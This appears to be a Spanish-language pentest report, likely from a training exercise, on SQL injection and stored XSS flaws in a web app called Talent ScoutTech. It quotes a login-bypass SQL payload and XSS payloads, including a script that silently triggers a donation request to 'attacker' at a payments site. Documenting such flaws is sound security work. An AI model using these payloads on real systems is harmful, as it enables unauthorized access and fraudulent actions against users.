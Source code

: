 # Informe de Pentesting

## Introducción

Este informe detalla los resultados de un pentesting realizado sobre la aplicación web **Talent ScoutTech**. Durante las pruebas se identificaron vulnerabilidades críticas, específicamente relacionadas con **inyección SQL (SQLi)** y **cross-site scripting (XSS)**, las cuales podrían comprometer la confidencialidad, integridad y disponibilidad de la aplicación. En este documento se describen las vulnerabilidades detectadas, los métodos utilizados para explotarlas, y ejemplos prácticos de los posibles impactos.

---

## Vulnerabilidades Detectadas

### 1. Inyección SQL (SQLi)

#### Descripción
En el formulario de inicio de sesión de la página `list_players.php`, se detectó una vulnerabilidad de inyección SQL en el campo `User`. La consulta SQL generada es susceptible de ser manipulada por un atacante para acceder a datos sensibles o autenticarse como un usuario válido sin conocer la contraseña.

#### Ejemplo de Explotación
1. **Paso 1:** Introducir el carácter `"`.
   - Resultado: La aplicación muestra un error que evidencia la vulnerabilidad:
     ![Imagen 1](/img/1.png)

   - Mensaje de error devuelto tras pulsar en "Login":
     ![Imagen 2](/img/2.png)

2. **Consulta Vulnerable:**
   ```php
   SELECT userId, password FROM users WHERE username = 'user_input' AND password = 'password_input'
   ```

3. **Ataque de Diccionario:**
   Para explotar la vulnerabilidad, se utilizó el siguiente payload en el campo `User`:
   ```
   " OR password="1234" --
   ```

   - Resultado: Autenticación exitosa con una contraseña válida encontrada en un diccionario.
     ![Imagen 3](/img/3.png)

4. **Identificación del Usuario:**
   Para conocer el nombre del usuario autenticado, se introdujo un comentario en uno de los jugadores. Al visualizar el comentario, se pudo determinar el nombre del usuario autenticado:
   - Comentarios antes del ataque:
     ![Imagen 6](/img/6.png)

   - Nuevo comentario:
     ![Imagen 7](/img/7.png)

   - Comentarios actualizados:
     ![Imagen 8](/img/8.png)

   - **Nombre del usuario identificado:** `luis`.

---

### 2. Cross-Site Scripting (XSS)

#### Descripción
Se identificaron múltiples puntos en la aplicación web donde es posible inyectar código JavaScript malicioso que se ejecuta al ser visualizado por otros usuarios. Esto permite ataques como robo de cookies, redirección a sitios maliciosos y ejecución de scripts en segundo plano.

#### 2.1. XSS en `add_comment.php`

1. **Payload Utilizado:**
   ```html
   <script>alert('¡Vulnerabilidad XSS!');</script>
   ```

2. **Explotación:**
   - Payload inyectado en el campo de comentarios:
     ![Imagen 9](/img/9.png)

   - Al visualizar el comentario, se ejecuta el código malicioso:
     ![Imagen 10](/img/10.png)

   - Resultado: Se muestra una alerta en el navegador:
     ![Imagen 11](/img/11.png)

#### 2.2. XSS en `insert_player.php`

1. **Vulnerabilidad en el campo `team`:**
   - Captura previa a la inyección:
     ![Imagen 13](/img/13.png)

2. **Payload Utilizado:**
   ```html
   <br><br><br>
   <a href="http://web.pagos/donate.php?amount=100&receiver=attacker">Profile</a>
   ```

3. **Explotación:**
   - Al enviar el formulario, el botón se renderiza en la página:
     ![Imagen 15](/img/15.png)

#### 2.3. XSS en `buscador.html`

1. **Descripción:**
   Se utilizó un payload para realizar una donación automática en segundo plano sin la intervención del usuario.

2. **Payload Utilizado:**
   ```html
   <script>
     var xhr = new XMLHttpRequest();
     xhr.open("GET", "http://web.pagos/donate.php?amount=100&receiver=attacker", true);
     xhr.send();
   </script>
   ```

3. **Explotación:**
   - Payload insertado en un comentario:
     ![Imagen 16](/img/16.png)

   - Resultado: El script se ejecuta automáticamente al cargar los comentarios, iniciando una solicitud HTTP en segundo plano:
     ![Imagen 17](/img/17.png)

---

## Conclusión

El análisis evidenció múltiples vulnerabilidades críticas que podrían comprometer la seguridad de la aplicación **Web_Talent-ScoutTech**. Las vulnerabilidades de inyección SQL y XSS nos permiten obtener acceso no autorizado, ejecutar scripts maliciosos, y potencialmente manipular los datos sensibles de los usuarios.